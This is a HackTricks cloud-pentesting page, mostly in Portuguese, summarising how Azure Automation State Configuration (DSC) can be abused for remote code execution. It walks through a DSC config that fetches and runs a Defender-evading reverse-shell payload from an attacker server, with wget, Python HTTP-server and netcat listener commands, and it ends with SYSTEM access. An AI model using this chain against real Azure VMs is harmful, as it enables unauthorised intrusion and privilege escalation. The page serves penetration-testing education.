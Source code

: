# Az - State Configuration RCE

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

**Confira o post completo em:** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Resumo da Preparação e Etapas da Infraestrutura do Servidor Remoto (C2)

#### Visão Geral

O processo envolve a configuração de uma infraestrutura de servidor remoto para hospedar um payload modificado do Nishang `Invoke-PowerShellTcp.ps1`, chamado `RevPS.ps1`, projetado para contornar o Windows Defender. O payload é servido a partir de uma máquina Kali Linux com IP `40.84.7.74` usando um simples servidor HTTP em Python. A operação é executada através de várias etapas:

#### Etapa 1 — Criar Arquivos

* **Arquivos Necessários:** Dois scripts PowerShell são necessários:
1. `reverse_shell_config.ps1`: Um arquivo de Desired State Configuration (DSC) que busca e executa o payload. Ele pode ser obtido no [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1).
2. `push_reverse_shell_config.ps1`: Um script para publicar a configuração na VM, disponível no [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1).
* **Personalização:** Variáveis e parâmetros nesses arquivos devem ser adaptados ao ambiente específico do usuário, incluindo nomes de recursos, caminhos de arquivos e identificadores de servidor/payload.

#### Etapa 2 — Compactar o Arquivo de Configuração

* O `reverse_shell_config.ps1` é compactado em um arquivo `.zip`, tornando-o pronto para transferência para a Conta de Armazenamento do Azure.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Step 3 — Definir Contexto de Armazenamento e Fazer Upload

* O arquivo de configuração compactado é enviado para um contêiner de Armazenamento Azure predefinido, azure-pentest, usando o cmdlet Set-AzStorageBlobContent do Azure.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Passo 4 — Preparar a Caixa Kali

* O servidor Kali baixa o payload RevPS.ps1 de um repositório do GitHub.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
* O script é editado para especificar a VM Windows alvo e a porta para o reverse shell.

#### Step 5 — Publish Configuration File

* O arquivo de configuração é executado, resultando na implantação do script de reverse-shell no local especificado na VM Windows.

#### Step 6 — Host Payload and Setup Listener

* Um Python SimpleHTTPServer é iniciado para hospedar o payload, junto com um listener Netcat para capturar conexões recebidas.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
* A tarefa agendada executa o payload, alcançando privilégios de nível SYSTEM.

#### Conclusão

A execução bem-sucedida deste processo abre inúmeras possibilidades para ações adicionais, como extração de credenciais ou expansão do ataque para várias VMs. O guia incentiva a continuidade do aprendizado e a criatividade no âmbito do Azure Automation DSC.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
